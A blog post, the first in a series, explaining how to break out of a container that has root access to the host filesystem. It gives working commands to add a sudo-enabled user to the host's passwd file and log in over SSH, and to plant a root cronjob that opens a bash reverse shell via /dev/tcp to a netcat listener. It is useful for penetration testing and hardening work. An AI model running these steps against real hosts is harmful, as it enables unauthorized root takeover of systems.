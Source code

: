 ```yaml
---
title: "Container Breakouts – Part 1: Access to root filesystem of the Host"
date: 2020-07-12T10:39:10+02:00
draft: true
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root filesystem.

<!--more-->

Following posts are part of the series:
- Part 1: Access to root filesystem of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)

## Intro

The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

As well, I realized during writing that the post must be sliced into digestible pieces. 

The first post is about what could probably go wrong if the host root filesystem is accessible from the container. Do to the fact that we have only access to the disc, this approach is absolutely not an OpSec-safe approach to escalate your privileges. 

## Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer’s**. After the user is prepared, we connect via **SSH** to the host. Okay, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is an SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo-step by creating another user with `uid=0(root)` to get rid of that step, but anyway.

### Cronjob

Due to the fact that in a default setup the container is direct connected to the host, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a reverse shell by a cronjob that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The cronjob is executed every minute as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting root access to the host system. 

Here are all steps that must be performed (we start in the container).

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to host system. They are modifying the host and absolutely not minimal-inversive or OpSec-safe. If you make mistakes, you may mix up the configuration of the host system and crash it. Be careful!

Furthermore, the proposed techniques are possible approaches to escape out of a container. I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous continue with the next post [Container Breakouts – Part 2: Privileged Container](../container-breakouts-part2).

